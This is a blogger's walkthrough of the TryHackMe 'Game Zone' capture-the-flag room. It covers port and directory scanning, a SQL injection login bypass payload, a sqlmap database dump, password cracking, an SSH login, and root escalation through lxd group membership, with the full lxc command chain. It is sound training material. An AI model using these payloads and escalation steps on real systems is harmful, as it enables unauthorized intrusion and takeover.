

THM: Game Zone
Table of Contents
Introduction
Take me to the danger game zone. Merry Christmas everyone, today is
yet another full day and I’ll be trying to take the most out of it.
Once again, I’ve modified /etc/hosts and my local bashrc so that both
gamezone.thm and $IP point to the target machine
Reconnaissance
Starting with my go-to snippet for CTFs:
nmap -sV -sC -oG nmap.initial $IP
It shows 2 open ports:
[ ]22/ssh[ ]80/http
Since we have no credentials checking the ssh server out is not so promising, and due to that, I proceed to web enumeration, right after starting the full scan (hoping it may give us something extra).
nmap -p- -oG nmap.full -T4 $IP
Web Enumeration
Visiting the website (having already started Burp Proxy at the background, to record everything and limited the scope appropriately), we get a home page pointing to the Hitman games.

Figure 1: Hitman entry page
Like always, more information (supposing it does not exceed a certain
limit where it becomes overwhelming), can’t do any harm, so, I made
sure to run gobuster as well:
gobuster dir -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt -u http://$IP -o gobuster.big
It did not reveal much, and robots.txt did not exist on the server, so
there was not a lot to check. Taken straight from our output:
[ ]/.htpasswd (Status: 403)[ ]/.htaccess (Status: 403)[ ]/images (Status: 301)[ ]/server-status (Status: 403)
Since the room points to SQLi, this is our next step.
SQLi
Now, we see that in each request there is a line in the following form:
username=reqwer&password=qwerqwer&x=18&y=7
Sending that to intruder to test our payloads hassle free. Sadly, which I also realized when I manually tested this random combination you can see above, no error message is vis
Figure 2: Subtle Error
No error is visibly caused by my sample injection payloads (just testing the usual as found in PayloadsAllTheThings), when testing the username field, so moving on to password. Same behavior there, so it is possible that the selected payloads are just not good enough (?).
Heading back to the room’s page, however, it suggested that we leave the second field blank (should have thought of that by myself).
Tinkering just a little bit there I got this that worked:
username=' or 1=1; ---&password=&x=0&y=
Using that in our browser we get access to Game Zone Portal
Game Zone Portal
Still taking advantage of Burp Suite Proxy, I’m trying different payloads on the Portal’s input field, to see what I can get:
- An error shows that the backend is MySQL, which I plan to take advantage of.
- After just a little manual enumeration, I decided to follow the room’s advice1and move on with sqlmap.
SQLmap
It worked smoothly, giving us both the posts that I had already found and a hash:username combination.
sqlmap -r request.txt --dbms mysql --dump
Password Cracking
Going to my john notes and just running john against gave me the password, I suspect just using the suggested command would be fine as well.
Initial Foothold
Knowing the user:password combination we can safely login as agent47:
ssh agent47@gamezone.thm
After logging in I thought it might be beneficial to try my techniques for privilege escalation, however the basics turned out to be properly configured so no low-hanging fruit for me there.
In any case, I wanted to avoid using metasploit and the suggested
technique before attempting to do it myself, so I ran linpeas and
while checking the output out, I noticed something I had seen in a CTF
a long time ago, when I could not understand it so well: (lxd) group
membership can usually be translated into root privileges.
Heading to HackTricks, I carefully went for method 2, and babbity
bibbity boop, I became root :P!
Some snippets that I used can be found below, missing the parts where I used scp to copy the tar.gz files to the target machine, and the initialization that took place in my local machine. I did not deviate (at all) from the playbook’s commands so it is easy for anyone to just follow the link and perform the same privesc.
agent47@gamezone:~$ lxc image import ./alpine*.tar.gz --alias myimage # It's important doing this from YOUR HOME directory on the victim machine, or it might fail. Image imported with fingerprint: 78495f763d90135702f6430685b5cc0f14255034c8fccda355791263fdf49354 agent47@gamezone:~$ lxd init error: You have existing containers or images. lxd init requires an empty LXD. agent47@gamezone:~$ lxc init myimage mycontainer -c security.privileged=true Creating mycontainer agent47@gamezone:~$ lxc init myimage mycontainer -c security.privileged=true Creating mycontainer error: Container 'mycontainer' already exists agent47@gamezone:~$ lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true Device mydevice added to mycontainer agent47@gamezone:~$ lxc start mycontainer agent47@gamezone:~$ lxc exec mycontainer /bin/sh
Thoughts
This was the first time I performed port forwarding with ssh (even though it did not help me at all. I just did it to get the cms flags - searching the CMS’s configuration files locally for some reason gave me a totally different version than the one online.), BUT I really liked playing around with it and enjoyed it.
Now as far as the room is concerned, it had the perfect balance for me, not too difficult and with quite some stuff worth checking out. It has a walkthrough type of character, however, which I have come to dislike, and that is the main reason why I tried my best not to look at it, before getting something that could be a flag.
Highly recommended!
Footnotes:
Having used sqlmap a couple times before I was amazed to see
the -r option. Well played on that one, definitely planning on reusing
it later on.